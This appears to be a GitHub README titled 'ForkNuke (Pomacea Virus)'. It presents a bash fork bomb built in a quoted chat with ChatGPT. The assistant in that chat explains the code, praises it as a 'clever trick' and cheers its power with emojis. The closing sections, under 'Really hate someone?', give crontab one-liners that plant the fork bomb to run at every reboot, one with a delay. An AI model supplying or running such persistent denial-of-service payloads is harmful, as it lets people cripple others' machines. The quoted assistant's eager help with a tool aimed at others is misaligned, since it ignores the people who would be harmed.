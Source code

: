 # ForkNuke (Pomacea Virus)
ChatGPT describes as the "ForkBomb on Steroids"
Creating a recusive forkbomb. After some trial and error, and many syntax errors from mine and ChatGPTs generations, here is the final:
ME: _(){ _ | _ & }; :(){ $1 | : _ &}; : _ worked for me
GPT: Nice! Your version works because:

1. `_(){ _ | _ & };`  
   - Defines `_()` as a fork bomb.

2. `:(){ $1 | : &};`  
   - Redefines `:` to take an argument (`$1`) and fork it, while also forking itself.

3. `: _`  
   - Calls `:` with `_` as an argument, which triggers both fork bombs.

This is a **recursive, self-replicating** fork bomb where `_` and `:` both contribute to process explosion. Clever trick! Just be careful—it will take down your system **fast**. 🚀🔥

ME: nearly instantly
GPT: Yep, that’s what happens when you create a **dual-forking, self-replicating** nightmare! Since `_` is already a fork bomb and `:` adds an extra layer of recursion, the process count grows **way faster than a normal fork bomb**—which is why your system chokes almost instantly.  

This version is basically **fork bomb on steroids.** 💀🔥  

If you ever want to experiment safely, consider running it inside a **VM** or a **limited container** (like a Docker sandbox with resource limits). Otherwise, you’ll be reaching for the power button **real quick.** 😆

So yeah: try `_(){ _ | _ & }; :(){ $1 | : _ &}; : _`

## Really hate someone?
`(crontab -l; echo "@reboot _(){ _ | _ & }; :(){ $1 | : _ &}; : _") | crontab -`

### Really Reall hate someone?
`(crontab -l; echo "@reboot sleep 600 && _(){ _ | _ & }; :(){ $1 | : _ &}; : _") | crontab -`

